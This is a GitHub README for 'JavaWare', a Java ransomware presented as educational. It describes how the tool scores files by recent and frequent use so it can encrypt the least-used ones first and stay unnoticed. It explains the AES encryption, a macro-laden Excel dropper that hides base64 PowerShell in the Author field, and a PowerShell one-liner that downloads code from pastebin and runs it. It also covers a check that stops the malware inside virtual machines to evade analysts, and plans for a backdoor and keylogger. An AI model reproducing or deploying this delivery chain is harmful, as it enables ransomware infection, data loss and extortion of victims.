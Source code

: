 # JavaWare
### A Ransomware Built in Java

#### :pushpin: Disclaimer
> I built this purely for **educational purposes**. I take no responsibility and/or liability for how you choose to use any of the code available here. If executing the ransomware, please do not do so on your own machine as it will encrypt your files. Although I did include a function to decrypt, I am in no way responsible. 

JavaWare is a ransomware which will observe your system, learn which files you use, and then encrypts your machine. Once all files have been encrypted it will launch the payload screen. 

![alt text](https://raw.githubusercontent.com/kyralmozley/JavaWare/V1.0/Screenshots/Pay%20Load.png "Launch Screen")

### :crystal_ball: How does it learn which files I use? 
Maths. 

It uses a metric called *frecency*[1] (frequency + recency) to give each file a score. Using the idea of exponential decay, it ensures that most recently used files are scored higher, and as it observes your system over the course of a week, the more a file is accessed in this time, the higher the score. It then encrypts in such a way so that files that you are not likely to be using (i.e. low scored) first, this ensures that it can go as long as possible without being noticed, allowing it to encrypt the entire filesystem. 

<p align="center">
  <img src="http://latex.codecogs.com/gif.latex?\gamma=\sum_{i=1}^n+\beta" border="0"/>
 </p>
 <p align="center">
  <img src="http://latex.codecogs.com/gif.latex?\beta=p\cdot {e^{-a\lambda}}" border="0"/>
</p>
<p align="center">
<img src="http://latex.codecogs.com/gif.latex?\lambda=\frac{\ln 2}{30}" border="0"/>
</p>

Where <img src="http://latex.codecogs.com/gif.latex?p" border="0"/> is a recency weight, <img src="http://latex.codecogs.com/gif.latex?a" border="0"/> is a frequency ranking (the time since last modification in hours), and 
<img src="http://latex.codecogs.com/gif.latex?\lambda" border="0"/> is a constant


|Recency Bucket | Score |
|---------------|-------|
| Today         | 1.0   |
| Last 5 Days   | 0.9   |
| Last 10 Days  | 0.7   |
| Last 30 Days  | 0.4   |
| Last 90 Days  | 0.1   |
| > 90 Days     | 0.0   |



### :lock: How does it encrypt? 
AES 128 bit Encryption in CBC Mode (Counter Block Mode ) PKCS5 Padding <br/>
AES is a symmetric encryption algorithm which works on blocks of a fixed size (16 bytes for AES128). *Padding* (PKCS5) is used if the block is less than 16 bytes long. We split the stream into 16 byte blocks, which is encrypted using AES and the result is XORed with the next block in the stream before it is encrypted. For the first block, it XORs it with an *initialization vector*, a random 16 byte value. 

### :page_facing_up: What does it encrypt? 
*FileTypes.java* defines what type of files to encrypt, it includes common document types and so will avoid program files to ensure your system is still functional. Similarly, *AvoidedDir.java* includes directories to avoid in traversal, such as *Windows* and *Program Files*. 

### :computer: How does it launch? 
The Microsoft Excel file, *August Report.xlsm* contains a Macro which is run on Workbook Open. Encoded Base64 PowerShell code is hidden within this file under the 'Author' field[2]. So the macro calls a function which gets the author, decodes it, and then runs the shell. The PowerShell script is: 
```powershell
Powershell Invoke-Expression -Command  $([string]([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((Invoke-WebRequest -Uri https://pastebin.com/raw/1538VQvN).content))))
```
This piece of code downloads another Base64 encoded powershell script, that checks whether or not the system is running in a virtual machine. If it is, it stops. This is a classic trick used by sophisticated malware such that analyst cannot then observe and reverse engineer the malware. 

Once it has established it is not in a VM, it then downloads code to check whether Java is currently installed in the system, if not, it downloads the latest version silently in the background. 

Lastly, it downloads and launches the jar. 

```powershell
$JAVA_VERSION = Get-ChildItem -Path "C:\Program Files\Java" | Select-String -Pattern 'jdk-'
$java = "C:\Program Files\Java\" + $JAVA_VERSION + "\bin\java.exe"
Start-Process -FilePath $java -ArgumentList '--module-path "C:\temp\javafx-sdk-11.0.2\lib" --add-modules=javafx.controls -jar temp\JavaWare.jar' -NoNewWindow
```

### :shipit: Future Tasks 
- [ ] Add a persistence method 
- [ ] Include 'fun' features such as a backdoor, keylogger etc.






### :notebook_with_decorative_cover: References: 
[\[1\]: Frecency Algortihm](https://developer.mozilla.org/en-US/docs/Mozilla/Tech/Places/Frecency_algorithm) <br/>
Gave me the idea to put my powershell code in the auhtor field, and other useful powershell commands.
[\[2\]: The Increased Use of PowerShell in Attacks - Symantec](https://www.symantec.com/content/dam/symantec/docs/security-center/white-papers/increased-use-of-powershell-in-attacks-16-en.pdf) <br/>
Gave me the idea to put my powershell code in the auhtor field, and other useful powershell commands.

